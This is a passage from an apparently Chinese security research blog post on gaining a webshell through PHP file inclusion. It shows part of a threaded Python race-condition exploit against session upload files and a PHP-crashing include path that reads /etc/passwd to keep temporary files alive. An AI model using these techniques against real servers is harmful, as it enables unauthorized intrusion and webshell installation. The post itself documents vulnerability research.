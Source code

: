 ```
    while not e.is_set():
        response = requests.get(
            f'{target}?file=/tmp/sess_{flag}',
        )

        if flag.encode() in response.content:
            e.set()


if __name__ == '__main__':
    futures = []
    event = threading.Event()
    pool = ThreadPoolExecutor(15)
    for i in range(10):
        futures.append(pool.submit(upload, event))

    for i in range(5):
        futures.append(pool.submit(write, event))

    wait(futures)
```

脚本执行完毕后会在目标中写入`/tmp/success`文件，里面即为Webshell：

[![image.png](https://www.leavesongs.com/media/attachment/2021/11/01/1d135d76-2103-4e78-b097-5c728bd72166.cc27abfb7aa5.png)](https://www.leavesongs.com/media/attachment/2021/11/01/1d135d76-2103-4e78-b097-5c728bd72166.png)

## [0x05 Segfault遗留下TEMP文件](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x05-segfaulttemp)

那么，如果关闭了`session.upload_progress.enable`，是否还有其他利用方法呢？

我们的目的是在服务器上留下一个内容可控的文件，最简单的方法就是利用上传包的临时文件。但这个临时文件之所以不能直接利用，原因有两点：

- 临时文件名是随机的
- 临时文件在请求结束后会被删除

如果说第一点我们可以通过爆破来解决，那么第二点是一定无法同时解决的——我们不可能在请求结束前爆破出临时文件名。

经过上面的分析，我们很容易想到一种解决方案：**如果我们可以让PHP进程在请求结束前出现异常退出执行，那么临时文件就可以免于被删除了**。

PHP底层是C语言开发的，不少内存错误都会导致进程异常退出，当然不论是Apache还是PHP-FPM都会存在master进程，在某一个子进程异常退出后会拉起新的进程来处理用户请求，不用担心搞挂服务器。

国内的安全研究者[@王一航](https://www.jianshu.com/p/dfd049924258) 曾发现过一个会导致PHP crash的方法：

```
include 'php://filter/string.strip_tags/resource=/etc/passwd';
```

正好用在文件包含的逻辑中。

这个Bug在[7.1.20](https://github.com/php/php-src/commit/791f07e4f06a943bd7892bdc539a7313fb3d6d1e)以后被修复，也没有留下更新日志，我们可以使用7.1.19版本的PHP进行尝试。向文件包含的目标发送这个导致crash的路径，可见服务器已经挂了，返回空白：
